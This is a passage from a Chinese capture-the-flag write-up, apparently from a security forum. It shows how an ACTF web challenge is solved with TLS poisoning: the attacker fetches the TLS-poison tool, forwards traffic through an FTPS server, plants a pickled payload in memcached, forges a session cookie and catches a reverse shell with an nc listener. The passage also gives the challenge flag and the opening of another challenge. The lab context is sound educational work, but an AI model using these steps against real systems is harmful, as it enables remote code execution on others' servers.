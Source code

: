 ![image-20220629194037111](https://shs3.b.qianxin.com/attack_forum/2022/06/attach-69c320a4a2b2091e7b2c226013fb4f2c9f88b7bf.png)

然后将图中的key和bundle.pem分别写入文件key.pem和cert.pem

**执行命令:**

> 使用上层流量转发工具
> 
> ```bash
> wget https://github.com/ZeddYu/TLS-poison/archive/refs/heads/master.zip
> unzip TLS-poison-master.zip
> TLS-poison/client-hello-poisoning/custom-tls/target/debug/custom-tls -p 11212 --certs cert.pem --key key.pem --verbose forward 2048
> ```
> 
> 开启处理FTPS服务
> 
> ```bash
> python3 tls.py 2048 vps 4444
> ```
> 
> nc监听等待反弹shell:
> 
> ```bash
> nc -vlp 4444
> ```

开启上面服务之后访问/?url=ftps://DNSname:11212/a

![image-20220629200149605](https://shs3.b.qianxin.com/attack_forum/2022/06/attach-107af85694a405eb06d3f90f18667d6641a86381.png)

然后我们可以在python服务中看到消息发送情况(注意,我们需要完成整个):

![image-20220629230905117](https://shs3.b.qianxin.com/attack_forum/2022/06/attach-6881ef0e66b3c7468742d58ebd33126ddc6e5b72.png)

到此我们反弹shell的pythonc序列化数据已经存入了mencached中了,只要我们使用对应的sessionid那么python就会取出mencache中存储的数据进行反序列化

将cookie中的sessionid修改为我们设置的以`actfSession:`开头的id:`actfSession:admint`,然后对页面进行刷新,此时可以看到成功反弹shell到我们的服务器

![image-20220629201125771](https://shs3.b.qianxin.com/attack_forum/2022/06/attach-0dc1b8cc36b4d8241014773738d796c67333d798.png)

执行/readflag获取flag

![image-20220629201208886](https://shs3.b.qianxin.com/attack_forum/2022/06/attach-e3168d171eb626af2c026f632b95c8c2b951011e.png)

ACTF{GO0d\_jo6\_y0u\_Ar3\_G0od\_At\_Tl3\_p0i30n}

myclient
--------

题目描述

```php
A cute mysql here, try to exploit it!
http://124.71.205.170:10047

The /tmp of the remote environment is fixed and does not require sql injection
The directory is cleaned every five minutes
It is recommended to test locally first

远程的环境的/tmp是固定的，不需要sql注入
/tmp目录每五分钟清理一次
建议先测试本地
```
